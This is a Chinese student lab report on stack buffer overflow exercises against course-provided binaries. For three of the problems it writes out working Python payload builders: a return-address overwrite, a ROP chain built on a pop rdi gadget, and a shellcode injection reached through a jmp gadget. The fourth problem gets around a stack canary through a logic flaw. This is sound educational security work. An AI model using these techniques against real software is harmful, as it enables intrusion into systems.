




# 栈溢出攻击实验

## 题目解决思路


### Problem 1: 
- **分析**：通过反汇编发现 func 函数调用了 strcpy，目的地址位于 rbp-0x8。由于 strcpy 不检查长度，我们可以输入超过 8 字节的数据。要劫持执行流到 func1 (0x401216)，需要覆盖 8 字节缓冲区和 8 字节的 Saved RBP。
- **解决方案**：
 ```
payload = b"A" * 16 + b"\x16\x12\x40\x00\x00\x00\x00\x00"
with open("ans1.txt", "wb") as f:
    f.write(payload)
 ```
- **结果**：

### Problem 2:
- **分析**：此题开启了 NX 保护，无法执行栈代码。目标是调用 func2(0x3f8)。在 x64 下，第一个参数需存入 RDI。利用 objdump 在 pop_rdi 函数中找到 gadget pop rdi; ret (0x4012c7)。
- **解决方案**：
```
padding = b"A" * 16
pop_rdi = b"\xc7\x12\x40\x00\x00\x00\x00\x00"
arg1 = b"\xf8\x03\x00\x00\x00\x00\x00\x00"
func2 = b"\x16\x12\x40\x00\x00\x00\x00\x00"
payload = padding + pop_rdi + arg1 + func2
with open("ans2.txt", "wb") as f:
    f.write(payload)
```
- **结果**：

### Problem 3: 
- **分析**：本题难度最大，涉及栈地址动态变化。
错误思路：最初尝试直接跳转到 func1 内部跳过比较逻辑的地址（0x40122b）。失败原因：跳转时跳过了 func1 的函数序言，导致 %rbp 寄存器依然是 Payload 中的非法填充值（如 "AAAA"）。当 func1 尝试写入局部变量到 -0x40(%rbp) 时，触发了段错误。
正确思路：本题提供了 saved_rsp 变量和 jmp_xs gadget。分析发现 jmp_xs (0x401334) 会跳转到 saved_rsp + 0x10，而 saved_rsp 存储的是 rbp-0x30。计算得出跳转目标正好是缓冲区的起始地址 rbp-0x20。因此，应在缓冲区开头注入 Shellcode，并利用 jmp_xs 调转执行。
- **解决方案**：
```
shellcode = b"\xbf\x72\x00\x00\x00\x48\xc7\xc0\x16\x12\x40\x00\xff\xd0"
# Padding: 32 (buffer) + 8 (rbp) = 40 bytes
padding = shellcode + b"A" * (40 - len(shellcode))
# Return to jmp_xs gadget
return_addr = b"\x34\x13\x40\x00\x00\x00\x00\x00"
payload = padding + return_addr
with open("ans3.txt", "wb") as f:
    f.write(payload)
```
- **结果**：

### Problem 4: 
- **分析**：Canary 机制：在 func 函数开头可以看到 mov %fs:0x28, %rax，这是将一个随机生成的“金丝雀”值存入栈中。在函数返回前（140e 处），程序会再次读取该值并与原始值对比，若不一致则调用 __stack_chk_fail。这使得简单的栈溢出无法直接覆盖返回地址。
绕过方案：通过代码审计发现 func 存在逻辑漏洞。它接受一个参数并进行循环减法，若初始输入为 -1 (补码 0xffffffff)，循环后结果恰好能触发 func1 的调用。
- **解决方案**本题无需编写 Python 构造 Payload。在程序提示输入时，直接输入数字 -1。程序识别到逻辑触发点，绕过安全检查输出通关提示。
- **结果**：

## 思考与总结
栈溢出的漏洞在现代系统设计中被很好的防御（特别是Canary），但是程序员的业务漏洞会让程序变得不安全。在写代码时，需要保证代码的逻辑没有错误，选择严格检查的函数，不要使用对缓冲区大小没有检查的c函数。


## 参考资料
无额外资料
